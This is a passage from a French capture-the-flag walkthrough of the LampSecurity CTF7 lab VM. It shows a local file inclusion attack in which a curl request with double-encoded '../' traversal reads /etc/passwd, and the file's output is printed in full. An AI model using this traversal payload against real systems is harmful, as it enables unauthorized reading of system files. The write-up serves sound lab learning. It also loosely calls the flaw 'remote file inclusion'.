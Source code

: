 Une [inclusion de fichier local](http://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) semble possible via ce fichier PHP et son paramètre _action_. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre _file_.

Exemple avec le fichier /etc/passwd qui contient la liste des utilisateurs du système. Il faut ruser et utiliser un [double encodage](https://www.owasp.org/index.php/Double_Encoding) pour y arriver !

```console
root@blinils:/media/sf_share/ctf7# curl --cookie "PHPSESSID=knk91bfkgkv5q51gt203kn6fe6; user=test" \
"http://192.168.56.103/read&file=../../../../../../../etc/passwd"
Can't find requested include: inc/etc/passwd.php

root@blinils:/media/sf_share/ctf7# curl --cookie "PHPSESSID=knk91bfkgkv5q51gt203kn6fe6; user=test" \
"http://192.168.56.103/read&file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
webdev:x:500:500::/home/webdev:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
brian:x:501:501::/home/brian:/bin/bash
john:x:502:502::/home/john:/bin/bash
alice:x:503:503::/home/alice:/bin/bash
ruby:x:504:504::/home/ruby:/bin/bash
leon:x:505:505::/home/leon:/bin/bash
julia:x:506:506::/home/julia:/bin/bash
michael:x:507:507::/home/michael:/bin/bash
bruce:x:508:508::/home/bruce:/bin/bash
neil:x:509:509::/home/neil:/bin/bash
charles:x:510:510::/home/charles:/bin/bash
dovecot:x:97:97:Dovecot IMAP server:/usr/libexec/dovecot:/sbin/nologin
dovenull:x:498:499:Dovecot's unauthorized user:/usr/libexec/dovecot:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
```

Et voilà qui conclut ce walkthrough, merci à [madirish2600](https://www.vulnhub.com/author/madirish2600,75/) pour avoir créé ces VM LampSecurity vulnérables !
